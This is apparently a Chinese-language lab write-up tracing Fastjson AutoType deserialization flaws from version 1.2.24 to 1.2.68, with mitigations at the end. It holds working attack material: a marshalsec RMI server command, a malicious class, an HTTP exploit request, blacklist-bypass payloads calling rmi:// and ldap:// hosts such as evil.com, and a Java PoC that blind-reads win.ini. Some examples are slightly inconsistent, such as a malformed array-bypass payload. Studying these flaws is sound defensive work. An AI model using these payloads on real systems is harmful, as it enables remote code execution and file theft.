

Fastjson 是阿里巴巴开源的 JSON 解析库，在国内 Java 生态中使用极广。由于其强大的 `AutoType` 功能（允许 JSON 中通过 `@type` 指定类名自动反序列化），也让它成为了安全研究员的重点关注对象。

***

## 一、漏洞根源：AutoType 功能

### 1.1 正常功能 vs 安全风险

```java
// Fastjson 的核心能力：JSON → Java 对象
String json = "{\"name\":\"张三\",\"age\":25}";
User user = JSON.parseObject(json, User.class);  // 安全

// AutoType 功能：允许 JSON 自己指定类名
String json2 = "{\"@type\":\"com.example.User\",\"name\":\"张三\"}";
Object obj = JSON.parseObject(json2);  // 危险：攻击者可指定任意类
```

### 1.2 攻击的起点：JdbcRowSetImpl

攻击者发现 `com.sun.rowset.JdbcRowSetImpl` 类在反序列化时会触发 JNDI 查询：

```java
// JdbcRowSetImpl 的 connect() 方法
Context ctx = new InitialContext();
DataSource ds = (DataSource) ctx.lookup(getDataSourceName());  // JNDI 查询
```

攻击者可以控制 `dataSourceName` 参数，指向恶意 RMI/LDAP 服务器。

## 二、演变全览图

### 版本演进与攻击方式对照表

| 版本范围              | 核心防御机制                                 | 绕过技巧                                   | 是否需要 AutoType | 攻击效果                  |
| ----------------- | -------------------------------------- | -------------------------------------- | ------------- | --------------------- |
| **≤1.2.24**       | 无防御                                    | 直接使用 `JdbcRowSetImpl`                  | 否（默认开启）       | JNDI → RCE            |
| **1.2.25-1.2.41** | 引入黑白名单默认关闭 AutoType                    | `L类名;` 包裹`[类名` 数组                      | **是**         | JNDI → RCE            |
| **1.2.42**        | 黑名单改为哈希值仅做一次首尾检测                       | `LL类名;;` 双写                            | **是**         | JNDI → RCE            |
| **1.2.43**        | 修复 `L/;` 双写                            | `[类名` 数组                               | **是**         | JNDI → RCE            |
| **1.2.44-1.2.46** | 修复数组绕过                                 | 无公开绕过                                  | —             | —                     |
| **1.2.47**        | 缓存机制成为弱点                               | `java.lang.Class` 预加载                  | **否**         | JNDI → RCE            |
| **1.2.48-1.2.67** | 限制 JNDI 类                              | 利用难度大增                                 | —             | —                     |
| **1.2.68**        | JNDI 类被封堵SafeMode 引入放宽 `AutoCloseable` | `expectClass` + `AutoCloseable`+ 第三方依赖 | **否**         | 文件读取 / BCEL / 有限 JNDI |

## 三、fastjson<=1.24-jndi

这个漏洞可以通过vulhub复现，首先先讲解我们用到的工具和payload：

### `marshalsec`

marshalsec 不负责执行恶意逻辑，它只负责 “当有人对我做 JNDI/rmi `lookup` 时，我返回一种会指向远程 HTTP 上某个类的引用；真正执行恶意代码的是受害 JVM 加载并初始化那个类时触发的 Java 语义“TouchFile”，也就是说marshalsec只负责转发。

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer \
  "http://192.168.142.132:8089/#LinuxTouch" 9473
```

**这个RMI服务的作用**：

- 监听9473端口
- 当靶机请求`rmi://192.168.142.132:9473/LinuxTouch`时返回一个Reference对象，告诉靶机：去`http://192.168.142.132:8089/`下载`LinuxTouch.class`

含义可以拆成三块：

| 部分                                 | 作用                                                                                                                           |
| :--------------------------------- | :--------------------------------------------------------------------------------------------------------------------------- |
| `http://127.0.0.1:8001/#TouchFile` | Codebase + 类名：`#` 前是 恶意类字节码的 HTTP 根；`#` 后是 在 JNDI Reference 里登记的类名（这里是 `TouchFile`）。                                         |
| 9473                               | LDAP 监听端口；受害进程里 `dataSourceName` 写成 `ldap://攻击机:9473/...` 就会连到这里。                                                            |
| jar 里的 `LDAPRefServer`             | 用内嵌 LDAP 库（如 UnboundID）拦截 LDAP 查询，按固定格式 塞入 `javaCodeBase` / `javaFactory` 等属性，让 受害方 JVM 里的 JNDI 客户端去 按 URL 拉 `.class` 并参与解析。 |

### `TouchFile.java`

```
public class TouchFile {
   static {
       try {
            Path p = Paths.get(System.getProperty("java.io.tmpdir"), "fastjson-jndi-poc.txt");
            Files.write(p, "exploited".getBytes(StandardCharsets.UTF_8));
       } catch (Exception ignored) {
       }
    }
}
```

**这个文件是** **`marshalsec`** **指向的类，也就是被调用的恶意类。**

特点：

- 没有 `main`：它不是给你 `java TouchFile` 跑的，而是给 受害 JVM 通过 JNDI 远程类加载路径调用的。
- 逻辑全在 `static { }` 里，这是 PoC 常见写法——类一旦被初始化，静态块就执行，等价于「类加载进 JVM 并完成初始化时执行一次」。

### JNDI：InitialContext.lookup

在我们的受害版本中默认开启了：**JdbcRowSetImpl**，这个危险类的dataSourceName支持传入一个rmi的源，当解析这个uri的时候，就会支持rmi远程调用，去指定的rmi地址中去调用方法。

`JdbcRowSetImpl.connect()` 里会对 `dataSourceName` 做 `lookup`。
`lookup` 返回什么由 名字解析决定：可以是绑定好的业务对象，也可以是 带工厂信息的 `javax.naming.Reference`，由 `NamingManager` / `DirectoryManager` 再去 解析 Reference（加载类、调工厂等）。
marshalsec 就是专门 伪造 LDAP 返回的工具。

### 开启本地的 python -m http.server 8001

开启这个端口后，构建的

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer \
  "http://192.168.142.132:8089/#LinuxTouch" 9473
```

才能被传出去，也就是创建端口->构造jndi

### 发送恶意Payload（发包）

```
POST / HTTP/1.1
Host: 192.168.142.128:8090
Content-Type: application/json
Content-Length: 146

{
  "b": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "rmi://192.168.142.132:9473/LinuxTouch",
    "autoCommit": true
  }
}
```

```
靶机收到请求
↓
FastJSON解析JSON
↓
看到"@type":"com.sun.rowset.JdbcRowSetImpl"
↓
实例化JdbcRowSetImpl
↓
调用setDataSourceName("rmi://192.168.142.132:9473/LinuxTouch")
↓
setAutoCommit(true)触发connect()
↓
connect()发起JNDI查找: rmi://192.168.142.132:9473/LinuxTouch
↓
连接Kali的RMI服务（端口9473）
↓
RMI服务返回Reference: http://192.168.142.132:8089/LinuxTouch.class
↓
靶机下载并加载LinuxTouch.class
↓
执行静态代码块: Runtime.exec("touch /tmp/success")
```

这样目标机器成功存入对应文件，也可以执行其他危险rce操作。

### 修复

| 修复方式           | 适用版本    | 说明                                    |
| :------------- | :------ | :------------------------------------ |
| 升级到1.2.83+     | 所有版本    | 最彻底的修复，包含完整补丁                         |
| 开启SafeMode     | ≥1.2.68 | 快速缓解，完全禁用autoType                     |
| 升级到Fastjson v2 | 新项目     | 代码重构，性能更好但不完全兼容                       |
| 禁用autoType     | 所有版本    | 临时缓解，可能被绕过，后续好几个版本的类似漏洞都是基于绕过autoType |

## 四、fastjson1.24\~1.47

官方后续多次修复该漏洞，但在这个版本区间内有多种方法绕过黑白名单，再次利用fastjson1.24的漏洞：

### fastjson 1.2.25 - 1.2.41 绕过原理

### `TypeUtils.loadClass()` 的递归处理逻辑

在 `loadClass` 方法中，如果类名以 `L` 开头且以 `;` 结尾，会去掉首尾字符后递归调用；如果以 `[` 开头，会去掉 `[` 后递归调用。

```java
// TypeUtils.loadClass() 简化逻辑
if (className.startsWith("[") && className.endsWith(";")) {
    // 处理数组和L;包裹的情况
    className = className.substring(1, className.length() - 1);
    return loadClass(className, classLoader);
}
```

**方式一：使用** **`L`** **和** **`;`** **包裹**

```json
{
  "@type": "Lcom.sun.rowset.JdbcRowSetImpl;",
  "dataSourceName": "rmi://127.0.0.1:1099/hello",
  "autoCommit": "true"
}
```

**方式二：使用** **`[`** **开头**

```json
{
  "@type": "[com.sun.rowset.JdbcRowSetImpl"[{,
  "dataSourceName": "rmi://127.0.0.1:1099/hello",
  "autoCommit": "true"
}
```

### 必要条件

```java
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

***

### fastjson 1.2.42 绕过原理

黑名单变成哈希值 + 单次首尾字符检测

1.2.42 版本对黑名单进行了哈希处理，并对 `L`/`;` 做了单次检测，但 `loadClass` 的递归逻辑仍然存在。

```java
// 检测逻辑：只检查一次首尾
if (className.charAt(0) == 'L' && className.charAt(className.length() - 1) == ';') {
    className = className.substring(1, className.length() - 1);
    // 只去除一次就传给黑名单检测
}
```

### 双写 `L` 和 `;`

```json
{
  "@type": "LLcom.sun.rowset.JdbcRowSetImpl;;",
  "dataSourceName": "rmi://127.0.0.1:1099/hello",
  "autoCommit": "true"
}
```

**原理**：检测只去除一层 `L`/`;`，得到 `Lcom.sun.rowset.JdbcRowSetImpl;`，而 `loadClass` 会递归去除，最终得到正常类名。

| 版本            | 绕过方式           | 原理                     |
| ------------- | -------------- | ---------------------- |
| 1.2.25-1.2.41 | `L类名;` 或 `[类名` | loadClass 递归处理首尾特殊字符   |
| 1.2.42        | `LL类名;;`       | 检测只去一层，loadClass 递归去多层 |
| 1.2.43+       | 数组绕过仍可用        | 只修复了 `L`/`;` 双写        |
| 1.2.44+       | 两种绕过均被修复       | 增加首尾字符多重检测             |

## fastjson1.47

到1.47版本，通过字符绕过的方法已经不可行，但引入了一种新的调用方法：

**`Class.forName()`利用Java反射机制，在运行时动态加载`JdbcRowSetImpl`类，将其存入FastJSON缓存。由于反射加载绕过了FastJSON的黑白名单检查，第二次使用时直接从缓存获取，成功实例化并触发JNDI注入，执行任意命令。**

这就是为什么反射机制在FastJSON漏洞中如此关键——它给了攻击者"在运行时决定使用哪个类"的能力，而黑白名单机制恰恰没能覆盖这个路径。

**核心攻击链始终是`JdbcRowSetImpl`**，因为它的`setDataSourceName()`方法会触发JNDI查找，这是最稳定的gadget

```
{
    "a": {
        "@type": "java.lang.Class",     // ← 辅助对象：用于绕过白名单
        "val": "com.sun.rowset.JdbcRowSetImpl"  // ← 把目标类预加载到缓存
    },
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",  // ← 真正触发漏洞的对象（和1.2.24一样！）
        "dataSourceName": "rmi://evil.com:9999/Exploit",
        "autoCommit": true
    }
}
```

### java反射

在fastjson1.47中，接触到了\*\*`Class.forName()`利用Java反射机制，在运行时动态加载`JdbcRowSetImpl`类，将其存入FastJSON缓存。\*\*

所以这边来学习一些java反射的原理。

#### 1.1 什么是反射？

**反射**：在运行时动态获取类的信息并操作对象的能力，而不需要在编译时知道具体类名。

```
// 正常方式：编译时就知道类名
JdbcRowSetImpl rs = new JdbcRowSetImpl();

// 反射方式：运行时才知道类名
String className = "com.sun.rowset.JdbcRowSetImpl";
Class<?> clazz = Class.forName(className);  // 动态加载
Object rs = clazz.newInstance();            // 动态实例化
```

#### 1.2 三种获取Class对象的方式

```
// 方式1：类名.class（编译时确定）
Class<JdbcRowSetImpl> clazz1 = JdbcRowSetImpl.class;

// 方式2：对象.getClass()（运行时确定）
JdbcRowSetImpl rs = new JdbcRowSetImpl();
Class<?> clazz2 = rs.getClass();

// 方式3：Class.forName()（最灵活，完全动态）
String className = "com.sun.rowset.JdbcRowSetImpl";
Class<?> clazz3 = Class.forName(className);  // ← 漏洞利用的关键
```

***

#### Class.forName()

#### 2.1 方法签名

```
// Class类中的静态方法
public static Class<?> forName(String className) throws ClassNotFoundException

// 完整版本（可控制是否初始化）
public static Class<?> forName(String className, boolean initialize, ClassLoader loder)
```

#### 2.2 执行过程

```
Class.forName("com.sun.rowset.JdbcRowSetImpl");
```

### 2.3 关键：类初始化会执行静态代码块

```
// JdbcRowSetImpl类的静态代码块（简化）
public class JdbcRowSetImpl extends BaseRowSet implements RowSet {
    static {
        // 注册JDBC驱动等初始化操作
        // 但不会直接触发JNDI
    }
    
    // 漏洞触发点在实例方法中，不在静态块
    public void setAutoCommit(boolean autoCommit) {
        if (autoCommit) {
            connect();  // ← 这里触发JNDI查找
        }
    }
}
```

**重要**：`Class.forName()`只加载类，**不会调用实例方法**，所以不会直接触发JNDI。但会把类加载到JVM中。

### 3.1 三种实例化方式

```
// 方式1：直接new（编译时确定）
JdbcRowSetImpl rs1 = new JdbcRowSetImpl();

// 方式2：反射 - 无参构造
Class<?> clazz = Class.forName("com.sun.rowset.JdbcRowSetImpl");
JdbcRowSetImpl rs2 = (JdbcRowSetImpl) clazz.newInstance();

// 方式3：反射 - 有参构造
Constructor<?> constructor = clazz.getConstructor(String.class);
JdbcRowSetImpl rs3 = (JdbcRowSetImpl) constructor.newInstance("param");
```

### 3.2 调用方法触发漏洞

```
// 反射实例化后，调用方法
Class<?> clazz = Class.forName("com.sun.rowset.JdbcRowSetImpl");
Object rs = clazz.newInstance();

// 反射调用setDataSourceName
Method setDSN = clazz.getMethod("setDataSourceName", String.class);
setDSN.invoke(rs, "rmi://evil.com:9999/Exploit");

// 反射调用setAutoCommit（触发漏洞！）
Method setAuto = clazz.getMethod("setAutoCommit", boolean.class);
setAuto.invoke(rs, true);  // ← 这里触发connect() → JNDI查找
```

### 4.1 FastJSON的反序列化过程

```
// 当FastJSON解析这个JSON时：
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "rmi://evil.com:9999/Exploit",
    "autoCommit": true
}
```

**内部反射调用链**：

```
// FastJSON内部代码（简化）
public class JavaBeanDeserializer {
    public Object deserialize(DefaultJSONParser parser, Type type) {
        // 1. 通过反射加载类
        Class<?> clazz = Class.forName(typeName);  // ← 反射加载
        
        // 2. 反射创建实例
        Object obj = clazz.newInstance();  // ← 反射实例化
        
        // 3. 解析JSON字段，反射调用setter方法
        for (Map.Entry<String, Object> entry : fields.entrySet()) {
            String fieldName = entry.getKey();
            Object fieldValue = entry.getValue();
            
            // 反射获取setter方法
            String setterName = "set" + capitalize(fieldName);
            Method method = clazz.getMethod(setterName, fieldValue.getClass());
            
            // 反射调用setter
            method.invoke(obj, fieldValue);  // ← 这里调用setDataSourceName和setAutoCommit
        }
        
        return obj;
    }
}
```

### 4.2 完整的反射调用时序

```
// FastJSON使用反射执行的等价代码
String className = "com.sun.rowset.JdbcRowSetImpl";

// Step 1: 反射加载类
Class<?> clazz = Class.forName(className);

// Step 2: 反射创建实例
Object instance = clazz.getDeclaredConstructor().newInstance();

// Step 3: 反射调用setDataSourceName
Method method1 = clazz.getMethod("setDataSourceName", String.class);
method1.invoke(instance, "rmi://evil.com:9999/Exploit");

// Step 4: 反射调用setAutoCommit（触发漏洞）
Method method2 = clazz.getMethod("setAutoCommit", boolean.class);
method2.invoke(instance, true);  // ← 内部调用connect() → JNDI查找
```

***

### 反射在1.2.47绕过中的作用

#### 第一步：通过java.lang.Class反射加载

```
{
    "@type": "java.lang.Class",
    "val": "com.sun.rowset.JdbcRowSetImpl"
}
```

**FastJSON内部处理**：

```
// ClassDeserializer的反序列化逻辑
public class ClassDeserializer implements ObjectDeserializer {
    public Object deserialize(DefaultJSONParser parser, Type type) {
        // 解析val字段值
        String className = parser.parseObject().getString("val");
        
        // 关键：通过反射加载类
        Class<?> clazz = Class.forName(className);  // ← 反射加载
        
        // 存入缓存（绕过关键）
        ParserConfig.getGlobalInstance().putClass(className, clazz);
        
        return clazz;
    }
}
```

#### 为什么这样能绕过？

```
// 正常流程（会检查黑白名单）
Class<?> clazz = Class.forName("com.sun.rowset.JdbcRowSetImpl");
// ↓ FastJSON会在checkAutoType中检查黑白名单
// ↓ 发现是危险类 → 抛出异常

// 绕过流程（利用ClassDeserializer）
// 1. 解析java.lang.Class时，白名单允许
// 2. 内部调用Class.forName()，这是JVM原生方法，没有黑白名单检查
// 3. 加载的类被存入FastJSON缓存
// 4. 第二次使用时从缓存获取，跳过检查
```

```
// 1. 加载类
Class<?> clazz = Class.forName("全限定类名");

// 2. 创建实例
Object obj = clazz.newInstance();  // 已弃用，推荐下面方式
Object obj = clazz.getDeclaredConstructor().newInstance();

// 3. 获取方法
Method method = clazz.getMethod("方法名", 参数类型.class);

// 4. 调用方法
method.invoke(对象实例, 参数值);

// 5. 获取字段
Field field = clazz.getField("字段名");
Object value = field.get(对象实例);

// 6. 修改私有字段
field.setAccessible(true);  // 突破private限制
field.set(对象实例, 新值);
```

## fastjson1.2.68

1.2.68 版本做了重大加固：

- 大幅扩充黑名单（JNDI 相关类几乎全部被封）
- 引入 SafeMode（完全禁止 AutoType）
- 但意外放宽了 `AutoCloseable` 子类的反序列化

`checkAutoType` 中存在一个绕过条件：

```java
if (expectClass != null) {
    // expectClass 不在黑名单中，且在 mappings 缓存中
    // typeName 是 expectClass 的子类
    // → 绕过检查，直接加载
}
```

`java.lang.AutoCloseable` 满足所有条件：

- 不在黑名单中
- 在 mappings 缓存中（JDK 内置）
- 有很多子类

**关键前提**：业务代码中必须存在 `JSON.parseObject(json, AutoCloseable.class)` 这样的调用。

#### 各利用链的因果关系



#### 链一：文件读取（BOMInputStream 盲注）

条件：

- 业务代码以 `AutoCloseable` 作为反序列化期望类型（例如 `JSON.parseObject(json, AutoCloseable.class)`）。
- 目标 classpath 存在 `commons-io`（提供 `BOMInputStream` / `ReaderInputStream`）。

`AutoCloseable` → `BOMInputStream` → `ReaderInputStream` → `URLReader` → `file://`

- `URLReader(file://...)` 打开本地文件，得到 Reader。
- `ReaderInputStream` 把 Reader 包成 InputStream。
- `BOMInputStream` 在读取时检查“流头部是否匹配某个 ByteOrderMark”，

补充说明：payload 里出现两个 `@type`（`AutoCloseable` 与 `BOMInputStream`）是为了把“期望类型”和“实际实例类型”放在一起讲清楚；严格 JSON 规范不允许重复 key，但 fastjson 会按解析顺序处理并以最后一个为准。

```
package com.nk7.v1268;

import com.alibaba.fastjson.JSON;
import org.apache.commons.io.ByteOrderMark;
import org.apache.commons.io.input.BOMInputStream;

import java.util.Arrays;

/**
 * 博客「1.2.68 绕过」链一：文件读取（BOMInputStream 盲注）
 * 使用 AutoCloseable 放宽限制的漏洞，通过 BOMInputStream 实现文件读取盲注。
 * <p>
 * 前提：
 * 1. 必须以 AutoCloseable.class 为反序列化期望类。
 * 2. 依赖于 commons-io 在 classpath 中。
 */
public class Fastjson1268FileReadPoc {

    public static void main(String[] args) {
        int[][] testBytes = new int[][]{
                {58, 102, 111, 114},
                {59, 102, 111, 114},
                {59, 32, 102, 111, 114}
        };

        for (int[] bytes : testBytes) {
            String payload = buildPayload(bytes);
            System.out.println("bytes=" + Arrays.toString(bytes));
            System.out.println("Payload (AutoCloseable File Read): \n" + payload);
            try {
                AutoCloseable obj = JSON.parseObject(payload, AutoCloseable.class);
                if (obj instanceof BOMInputStream) {
                    BOMInputStream bis = (BOMInputStream) obj;
                    ByteOrderMark bom = bis.getBOM();
                    if (bom == null) {
                        throw new IllegalStateException("NO_MATCH");
                    }
                    System.out.println("MATCH bom=" + formatBom(bom));
                    obj.close();
                } else {
                    System.out.println("type=" + obj.getClass().getName());
                }
            } catch (Throwable t) {
                System.out.println("异常=" + t.getClass().getName() + ": " + t.getMessage());
            }
            System.out.println();
        }
    }


    private static String formatBom(ByteOrderMark bom) {
        if (bom == null) {
            return "null";
        }
        return bom.getCharsetName() + ":" + Arrays.toString(bom.getBytes());
    }

    private static String buildPayload(int[] bytes) {
        StringBuilder bytesJson = new StringBuilder();
        for (int i = 0; i < bytes.length; i++) {
            if (i > 0) {
                bytesJson.append(", ");
            }
            bytesJson.append(bytes[i]);
        }

        return "{\n"
                + "  \"@type\": \"java.lang.AutoCloseable\",\n"
                + "  \"@type\": \"org.apache.commons.io.input.BOMInputStream\",\n"
                + "  \"delegate\": {\n"
                + "    \"@type\": \"org.apache.commons.io.input.ReaderInputStream\",\n"
                + "    \"reader\": {\n"
                + "      \"@type\": \"jdk.nashorn.api.scripting.URLReader\",\n"
                + "      \"url\": \"file:///C:/Windows/win.ini\"\n"
                + "    },\n"
                + "    \"charsetName\": \"UTF-8\",\n"
                + "    \"bufferSize\": 1024\n"
                + "  },\n"
                + "  \"boms\": [{\"charsetName\": \"UTF-8\", \"bytes\": [" + bytesJson + "]}]\n"
                + "}";
    }
}
```

```
bytes=[58, 102, 111, 114]
Payload (AutoCloseable File Read): 
{
  "@type": "java.lang.AutoCloseable",
  "@type": "org.apache.commons.io.input.BOMInputStream",
  "delegate": {
    "@type": "org.apache.commons.io.input.ReaderInputStream",
    "reader": {
      "@type": "jdk.nashorn.api.scripting.URLReader",
      "url": "file:///C:/Windows/win.ini"
    },
    "charsetName": "UTF-8",
    "bufferSize": 1024
  },
  "boms": [{"charsetName": "UTF-8", "bytes": [58, 102, 111, 114]}]
}
异常=java.lang.IllegalStateException: NO_MATCH

bytes=[59, 102, 111, 114]
Payload (AutoCloseable File Read): 
{
  "@type": "java.lang.AutoCloseable",
  "@type": "org.apache.commons.io.input.BOMInputStream",
  "delegate": {
    "@type": "org.apache.commons.io.input.ReaderInputStream",
    "reader": {
      "@type": "jdk.nashorn.api.scripting.URLReader",
      "url": "file:///C:/Windows/win.ini"
    },
    "charsetName": "UTF-8",
    "bufferSize": 1024
  },
  "boms": [{"charsetName": "UTF-8", "bytes": [59, 102, 111, 114]}]
}
异常=java.lang.IllegalStateException: NO_MATCH

bytes=[59, 32, 102, 111, 114]
Payload (AutoCloseable File Read): 
{
  "@type": "java.lang.AutoCloseable",
  "@type": "org.apache.commons.io.input.BOMInputStream",
  "delegate": {
    "@type": "org.apache.commons.io.input.ReaderInputStream",
    "reader": {
      "@type": "jdk.nashorn.api.scripting.URLReader",
      "url": "file:///C:/Windows/win.ini"
    },
    "charsetName": "UTF-8",
    "bufferSize": 1024
  },
  "boms": [{"charsetName": "UTF-8", "bytes": [59, 32, 102, 111, 114]}]
}
MATCH bom=UTF-8:[59, 32, 102, 111, 114]

```

注意：这里的 `NO_MATCH` 是 PoC 主动抛出的，用来把“猜错/猜对”稳定地变成布尔信号。真实场景能否盲注，取决于业务侧是否存在可观测差异（响应内容/HTTP 状态码/日志/耗时等）；如果业务把异常吞掉且无任何侧信道，这条链在实战里就没有可用回显。

####  有限 JNDI

| 项目        | 说明                              |
| --------- | ------------------------------- |
| **封堵了什么** | JNDI 类被加入黑名单                    |
| **转向了什么** | 通过 AutoCloseable 仍可使用，但需低版本 JDK |
| **条件**    | JDK < 8u191（允许 LDAP 远程类加载）      |

```json
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap://evil.com:1389/Exploit"
}
```

### 修复：升级到 Fastjson 2.x

#### Fastjson 2.x 的安全机制重构

Fastjson 2.x 重构了安全机制，不再有 AutoType 风险。

#### 无法升级时的临时方案

```java
// 方案一：开启 SafeMode（1.2.68+）
ParserConfig.getGlobalInstance().setSafeMode(true);

// 方案二：关闭 AutoType
ParserConfig.getGlobalInstance().setAutoTypeSupport(false);

// 方案三：使用第三方库时注意版本
// commons-io 升级到 2.9.0+（修复了部分 Gadget）
// bcel 非必要不引入
```

#### 代码层面

避免使用 `JSON.parseObject(json, AutoCloseable.class)` 这类接口类作为反序列化目标类型。
